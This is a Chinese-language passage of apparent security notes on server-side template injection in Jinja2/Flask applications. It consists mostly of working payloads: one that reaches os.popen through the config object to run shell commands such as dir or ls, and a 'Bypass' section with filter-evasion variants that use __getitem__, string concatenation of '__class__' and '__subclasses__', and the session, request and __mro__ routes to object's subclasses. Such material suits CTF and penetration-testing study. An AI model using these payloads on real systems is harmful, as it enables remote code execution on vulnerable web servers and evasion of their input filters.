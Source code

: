 除此之外:

```
{{config.__init__.__globals__['os'].popen('dir').read()}}
```

也可以用来执行windows下的dir命令,当然linux下的ls等也可以

# Bypass

1.过滤[]等括号

使用gititem绕过。如原`poc {{"".__class__.__bases__[0]}}`

绕过后`{{"".__class__.__bases__.__getitem__(0)}}`

2.过滤了subclasses，拼凑法

原`poc{{"".__class__.__bases__[0].__subclasses__()}}`

绕过 `{{''.__class__.__bases__[0]['__subcla'+'sses__']()}}`

3.过滤class

使用session

poc `{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0].__bases__[0].__subclasses__()}}`

如果`__bases__[0]`不够则不能找到objec类

![image-20210621215743784](images/16.png)

多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session['__cla'+'ss__'].__mro__[12].__subclasses__()}}
```

或者

```
{{request['__cl'+'ass__'].__mro__[3].__subclasses__()}}//如果报错则修改[3]
```
